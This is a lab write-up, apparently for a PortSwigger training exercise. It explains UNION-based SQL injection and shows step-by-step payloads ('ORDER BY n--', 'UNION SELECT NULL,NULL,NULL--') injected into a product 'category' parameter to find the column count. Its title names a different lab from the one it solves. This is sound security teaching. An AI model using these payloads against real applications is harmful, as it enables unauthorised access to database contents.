


## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Objective

This lab contains a SQL injection vulnerability in the product category filter. The results of the query are returned in the application's response, allowing a UNION attack to retrieve data from other tables. The first step is to determine the number of columns returned by the query.

To solve the lab, determine the number of columns by performing a SQL injection UNION attack that returns an additional row containing null values.

## What (understanding the vulnerability)

When an application is vulnerable to SQL injection and returns query results in its response, the `UNION` keyword can be used to retrieve data from other tables within the database. This is known as a SQL injection UNION attack.

## Why (why it exists and why the exploit works)

The vulnerability exists because user input is concatenated directly into an SQL query without proper validation or parameterized queries. The attack works because the injected `UNION SELECT` statement combines the original query with another query, allowing unauthorized data to be retrieved if both queries return the same number of columns with compatible data types.

## Where (where the vulnerability is found)

The vulnerability exists in the `category` parameter used in the product filter.

Two common methods to determine the number of columns are:

**Using `ORDER BY`:**

```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

Increment the column index until an error occurs.

**Using `UNION SELECT`:**

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

Increase the number of `NULL` values until the query executes successfully.

## When (when the attack is applicable)

A UNION attack is applicable only when:

- Both queries return the same number of columns.
- The corresponding columns have compatible data types.

## Who (who can exploit it and who is affected)

Any attacker who can interact with the vulnerable application can exploit this flaw. Sensitive information, including user credentials and other database records, may be compromised.

## How (step-by-step solution, payloads, and screenshots)

1. Observe the `category` URL parameter.
2. Inject the payload:

```sql
category=Gifts'--
```


3. Inject:

```sql
category=Gifts' UNION SELECT NULL--
```

This returns an Internal Server Error.

4. Inject:

```sql
category=Gifts' UNION SELECT NULL,NULL--
```

This also returns an Internal Server Error.


5. Inject:

```sql
category=Gifts' UNION SELECT NULL,NULL,NULL--
```

The page loads successfully, confirming that the query returns **3 columns**.



## Key Takeaways

- `UNION SELECT NULL,NULL,NULL--` can be used to determine the number of columns in a query.
- UNION-based SQL injection requires matching column counts and compatible data types.
- User input should never be directly concatenated into SQL queries.

## References

- PortSwigger Web Security Academy
- https://www.youtube.com/c/RanaKhalil101/playlists